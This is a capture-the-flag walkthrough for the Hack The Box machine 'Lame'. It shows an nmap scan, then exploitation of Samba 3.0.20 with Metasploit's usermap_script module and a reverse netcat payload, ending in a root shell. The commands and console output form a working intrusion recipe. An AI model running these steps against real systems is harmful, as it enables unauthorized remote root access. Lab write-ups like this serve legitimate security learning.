

As usual, the first thing we run is an NMAP scan to see what ports are open on the target.

nmap -A -p- 10.10.10.3 -T4

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|\_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|\_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|\_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.23 (92%), Belkin N300 WAP (Linux 2.6.30) (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC5) (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.18 (ClarkConnect 4.3 Enterprise Edition) (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux\_kernel

Host script results:
|\_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account\_used: guest
|   authentication\_level: user
|   challenge\_response: supported
|\_  message\_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|\_  System time: 2022-06-12T12:49:09-04:00
|\_clock-skew: mean: 2h00m08s, deviation: 2h49m45s, median: 5s

I noticed an older SMB version running (Samba 3.0.20-Debian). Maybe there is an exploit we can leverage.

A quick google search and we have an exploit! [https://www.rapid7.com/db/modules/exploit/multi/samba/usermap\_script/](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

We just need to run and configure Metasploit for the usermap\_script exploit.

msfconsole
msf6 > use exploit/multi/samba/usermap\_script 
\[\*\] No payload configured, defaulting to cmd/unix/reverse\_netcat
msf6 exploit(multi/samba/usermap\_script) > show targets

Exploit targets:

   Id  Name
   -- ----
   0   Automatic

msf6 exploit(multi/samba/usermap\_script) > show options

Module options (exploit/multi/samba/usermap\_script):

   Name    Current Setting  Required  Description
   ---- --------------- -------- -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-fra
                                      mework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)

Payload options (cmd/unix/reverse\_netcat):

   Name   Current Setting  Required  Description
   ---- --------------- -------- -----------
   LHOST  0.0.0.0    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   -- ----
   0   Automatic

msf6 exploit(multi/samba/usermap\_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf6 exploit(multi/samba/usermap\_script) > set lhost tun0
lhost => tun0
msf6 exploit(multi/samba/usermap\_script) > run

\[\*\] Started reverse TCP handler on 10.10.14.8:4444 
\[\*\] Command shell session 1 opened (10.10.14.8:4444 -> 10.10.10.3:39225) at 2022-06-12 12:59:48 -0400

whoami
root

And just like that, we're root!
